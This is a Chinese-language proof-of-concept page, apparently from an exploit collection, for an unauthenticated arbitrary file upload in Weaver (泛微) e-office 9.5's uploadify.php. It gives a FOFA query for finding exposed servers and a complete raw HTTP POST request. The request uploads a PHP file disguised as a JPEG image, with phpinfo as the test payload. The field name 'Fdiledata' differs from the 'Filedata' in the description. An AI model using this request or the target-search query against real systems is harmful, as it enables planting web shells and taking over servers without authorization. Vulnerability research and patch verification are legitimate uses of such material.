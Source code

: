 ## 泛微e-office-uploadify.php存在任意文件上传漏洞

  由于泛微e-office 9.5版本源文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传，未经身份验证的恶意攻击者通过上传恶意文件，从而获取目标服务器的控制权限。

## fofa

```
app="泛微-EOffice"
```

## poc

```
POST /inc/jquery/uploadify/uploadify.php  HTTP/1.1
Host: your-ip
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="Fdiledata"; filename="uploadify.php."
Content-Type: image/jpeg
 
<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131042971.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131042601.png)